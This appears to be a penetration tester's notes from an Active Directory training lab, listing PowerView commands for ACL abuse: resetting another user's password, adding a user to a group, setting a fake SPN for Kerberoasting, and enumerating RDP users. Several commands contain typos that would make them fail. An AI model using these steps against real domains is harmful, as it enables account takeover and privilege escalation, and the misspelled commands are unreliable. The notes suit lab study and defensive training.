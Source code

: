 ^6a3f67

#### (ACL Abuse) Create and use Secure Strings
```powershell
# Some commands require a validly configured Secure String Object, so to interact with AD as that user, you need to create an object correctly:
# Create Secure String
$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force

# Create Credentials Object
$Cred = New-Object System.Managemnet.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)

# Create second secure string.
$damundsenPassword = ConverTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force

# use cred obj and secure string to change damunsen's password
# Make sure to import Powerview
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```

^507f05

#### (ACL Abuse) Add user to a tasty group
```powershell
# Make credential object to authenticate to AD commands
$SecPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain>/<user>', $SecPassword)

# Enum current group memebership of target group 
Get-AdGroup -Identity "<group name>" -Properties * | Select -ExpandProperty Members

# Add user to group
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members '<user>' -Crednetial $Cred -Verbose

# Verify user was added
Get-DomainGroupMemeber -Identity "<group name>" | Select MemberName
```

^ffb6bc

#### Create Fake SPN
```powershell
# Remember $Cred is a credential object
Set-DomainObject -Credential $Cred -Identity <user> -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

^ec631e

#### Enumerate Remote Desktop Users Group
```powershell
Get-NetLocalGroupMember -ComputerName <hostname> -GroupName "Remote Desktop Users"
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"
```
